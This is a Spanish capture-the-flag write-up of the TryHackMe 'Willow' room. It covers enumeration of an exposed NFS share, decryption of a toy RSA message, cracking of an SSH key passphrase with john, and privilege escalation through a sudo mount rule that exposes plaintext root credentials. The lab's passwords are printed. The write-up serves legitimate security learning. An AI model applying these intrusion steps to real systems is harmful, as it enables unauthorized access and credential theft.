

Para lograr obtener o comprometer el servidor en esta sala tendremos que enfrentarnos a una serie de conceptos, las cuales son: enumeración de `nfs`, explotación de claves RSA, cracking del `id_rsa` y escalada de privilegios, para luego realizar estenografía para obtener las flags.


- Link [willow](https://tryhackme.com/room/willow)
- Created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)

## Enumeración

Iniciamos enumerando los puertos de la maquina con la herramienta de `nmap`

```php
❯ nmap -p- --open --min-rate 1000 -vvv 10.10.243.22 -Pn -n  -oG allportsScan

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
111/tcp  open  rpcbind syn-ack
2049/tcp open  nfs     syn-ack
```

Una vez encontrado los puertos abiertos, procedemos a enumerar cada uno de los servicios que se ejecutan en estos.

```php
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJHkiuOeIrYxoyBBsJX2wpThJlvbsanlxpYXyHspzVIdeGQq3kD/2h1iNbOLwIb/iwS4oaY83OwxMiXImgKm/QgpgffrrKmU41eI/q9i+3NhLfHLvoT5PWupe/UW5Y3/lfmIMD1UXTUJNYiA07w/kHKj9ElQs7EZ2oZ9L5j2/h/lAAAAFQDE3pT3CTjQSOUOqdgu9HBaB6d6FwAAAIAFWqdfVx3v+GNxecTNp1mDb64WZcf2ssl/j+B6hj5W7s++DTY7Ls/i2R0z5bQes+5rMWYvanYFyWYEj31qWmrLvluJbJKldG3IttW5WfMzIyOJ11MHGAMP2/ZXZ4w3t8dMMudgBPkXE1uGv+p03A1i+Z6UfvGVv4HrtlCwqCRBywAAAIBpf+5ztR5aSDuZPxe/BURQIBKqDhOVZOt+Zhcc1GEcdukmlfmyH0sSm/3ae4CYLqBgD1zzwwSg4IkPR8wb1wa3G5F+OSYymEoKuxYWYN4LlSe9vrIap/1C/NO+jMQ5ru6WYqBcNdPqHQ4r5I7MzhziLdNIhfBmY076aL2Dr/OsAg==
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0/BxHjpZXU3EhwOMURG/xIJno/fZBBw2tntPhQMsA+L6YoVL4IyTKTz6SGM6BcX9622CGutBiO0pc0vhGlf9v/4cUB7My3d1r3t3EkNF0SaKAmAZLm8QOFbmS/TyHy9wF5TGJLunz5cN3NdGIz3Bz2GHHouicRo/vopYmHxjItfVgVUD2u+e5Gkw7u+U1BxZOrQDlaUS41AJvZm9Pk0pn2hWXeGTCJu8oyCqaEi/u8Wu7Ylp/t15NjEpiDpRp2LH9ctB3EG50LL+ti2o8/U652wIoNhnoF33eI6HJget9jvSC03oOx5r6NqHbOn94kVAUjFbYzK716dBa+I5jocHr
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIW2cLhyEIs7aEuL5e/SGCx5HsLX1a1GfgE/YBPGXiaFt/AkVFA3leapIvX+CD5wc7wCKGDToBgx6bkIY9vb0T0=
|   256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsXsk2l13dc4bQlT0wYP6/4gpeoTx5IfVvOBF++ClPu
80/tcp   open  http    syn-ack Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Recovery Page
111/tcp  open  rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      45043/udp6  mountd
|   100005  1,2,3      48322/udp   mountd
|   100005  1,2,3      52279/tcp6  mountd
|   100005  1,2,3      54993/tcp   mountd
|   100021  1,3,4      46047/udp6  nlockmgr
|   100021  1,3,4      46988/udp   nlockmgr
|   100021  1,3,4      47045/tcp   nlockmgr
|   100021  1,3,4      50297/tcp6  nlockmgr
|   100024  1          37031/tcp6  status
|   100024  1          37935/udp   status
|   100024  1          39019/tcp   status
|   100024  1          57543/udp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs     syn-ack 2-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 80

Visitando el sitio web nos encontraremos con lo siguiente


Enumerando la web no se encontró nada mas que la pagina que se muestra anteriormente. Procederemos a enumerar otro servicio.

## Explotación
### Puerto 2049

Para enumerar el servicio que se ejecuta en el 2096 tendremos que hacer uso de `showmount` 

```php
❯ showmount -e 10.10.243.22
```

Enumerando encontramos lo siguiente:


Tenemos accedo o se puede hacer una montura en nuestro sistema del directorio `/var/failsafe` de la maquina victima. Procederemos a realizar la montura con `mount`

```php
❯ sudo mount -t nfs 10.10.243.22:/var/failsafe /mnt/willow
```

Ahora encotramos una `rsa_keys`


El contenido del archivo `rsa_key` es:

```php
❯ cat rsa_keys 
	Public Key Pair: (23, 37627) 
	Private Key Pair: (61527, 37627)
```

Ahora teniendo esta información sumada con del sitio web, procederemos a pasarla por [cyberChef](https://gchq.github.io/CyberChef/)



Teniendo asi:


### RSA key

Ahora, realizaremos un script para la decodificación (descifrado) de un mensaje cifrado utilizando el algoritmo de cifrado RSA. Aquí está el propósito y una descripción más detallada:

```python
import argparse
```

Aquí se importa el módulo `argparse`, que se utiliza para analizar los argumentos de la línea de comandos.

```python
parser = argparse.ArgumentParser(description="Decode RSA")
```

Se crea un objeto `ArgumentParser` llamado `parser` con una descripción asociada. Este objeto manejará los argumentos de la línea de comandos.


```python
parser.add_argument("file", help="The file containing the encrypted text") 
parser.add_argument("d", help="The Private Key", type=int) 
parser.add_argument("n", help="The Modulus", type=int)
```

Se definen tres argumentos que el script espera recibir desde la línea de comandos:

- `"file"`: La ruta al archivo que contiene el texto cifrado.
- `"d"`: La clave privada para el algoritmo RSA.
- `"n"`: El módulo utilizado en el algoritmo RSA.


```python
args = parser.parse_args()
```

El método `parse_args()` analiza los argumentos de la línea de comandos y devuelve un objeto que contiene los valores proporcionados para los argumentos definidos anteriormente.

```python
with open(args.file, "r") as coded:     data = [int(i.strip("\n")) for i in coded.read().split(" ")]
```

Se abre el archivo especificado en el argumento `"file"`, se lee su contenido y se convierte cada número en una lista de enteros. El archivo debe contener números separados por espacios.

```python
for i in data:     print(chr(i ** args.d % args.n), end="")
```

Para cada número en la lista `data`, realiza la operación de descifrado RSA y la imprime como carácter. La operación de descifrado RSA es `i ** args.d % args.n`. Después, `chr(...)` convierte el resultado en su carácter ASCII correspondiente.

```python
    end=""
```

El argumento `end=""` en la función `print` evita que se imprima un carácter de nueva línea después de cada carácter descifrado, asegurando que la salida sea continua.

```python
import argparse

def decode_rsa(file_path, private_key_d, modulus_n):
    with open(file_path, "r") as coded:
        data = [int(i.strip("\n")) for i in coded.read().split(" ")]

    decoded_message = ''.join([chr(i ** private_key_d % modulus_n) for i in data])
    return decoded_message

def main():
    parser = argparse.ArgumentParser(description="Decode RSA")
    parser.add_argument("file", help="The file containing the encrypted text")
    parser.add_argument("d", help="The Private Key", type=int)
    parser.add_argument("n", help="The Modulus", type=int)
    args = parser.parse_args()

    result = decode_rsa(args.file, args.d, args.n)
    print(result)

if __name__ == "__main__":
    main()

```

Podemos observar que el `id_rsa` esta protegida con contraseña, por lo que procederemos a a obtener el hash `ssh2john` para luego crackearla con `john`.

```php
❯ ssh2john id_rsa > hash
```

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (id_rsa)     
1g 0:00:00:00 DONE (2024-01-26 15:52) 5.882g/s 59482p/s 59482c/s 59482C/s chulita..simran
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora teniendo la contraseña de la `id_rsa`  podremos logearnos por ssh, pero antes debemos de dar permisos con el siguiente comando: `chmod 600 id_rsa` 
```php
❯ ssh -i id_rsa willow@10.10.67.188
```

Al ingresar o tratar de ingresar nos sale un mensaje e `sign_and_send_public...` que esto se da por algún error del lado del servidor. [Sign_and_send_pubkey: no mutual signature supported](https://stackoverflow.com/questions/73795935/sign-and-send-pubkey-no-mutual-signature-supported)


Por lo que se debe realizar de la siguiente forma:

```php
❯ ssh -i id_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa willow@10.10.67.188
```

Lo cual nos dejara ingresar como el usuario  `willow`.

## Escalada de privilegios

### Usuario : willow


La diferencia está en la restricción de tipos de clave aceptados en el primer comando. Al agregar `-o PubkeyAcceptedKeyTypes=+ssh-rsa`, estás indicando explícitamente que solo se deben aceptar claves `ssh-rsa`. En el segundo comando, no estás especificando ninguna restricción adicional, por lo que se utilizarán los algoritmos de clave predeterminados aceptados por tu cliente SSH.

Si estás encontrando problemas de autenticación o recibes mensajes de error relacionados con la firma de la clave, a veces es necesario ser más explícito sobre qué algoritmo de clave estás dispuesto a aceptar o usar. La primera forma de invocar `ssh` con `-o PubkeyAcceptedKeyTypes=+ssh-rsa` es un intento de hacer esto.

Enumerando el sistema encontraremos que podemos ejecutar el `/bin/mount /dev/*` de manera privilegiada:

```php
willow@willow-tree:~$ sudo -l
```


```php
(ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

Antes de ejecutar el comando, nos dirigimos al directorio `/dev` en donde encontramos algo que nos llama la atención que es `hidden_backup`.


"b" se refiere a un dispositivo de bloques, lo que significa que `hidden_backup` es un archivo especial que representa un dispositivo de bloques, como un disco duro o una partición.

Por lo que procederemos a realizar una montura de `hidden_backup`

```php
willow@willow-tree:/dev$ mkdir /tmp/hidden_backup
willow@willow-tree:/dev$ sudo /bin/mount /dev/hidden_backup /tmp/hidden_backup
willow@willow-tree:/tmp/hidden_backup$ ls
creds.txt
```

Teniendo así unas credenciales que son:


```php
root: 7QvbvBTvwPspUK
willow: U0ZZJLGYhNAT2s
```

### Usuario : root


```php
❯ steghide extract -sf user.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"root.txt".
```

:P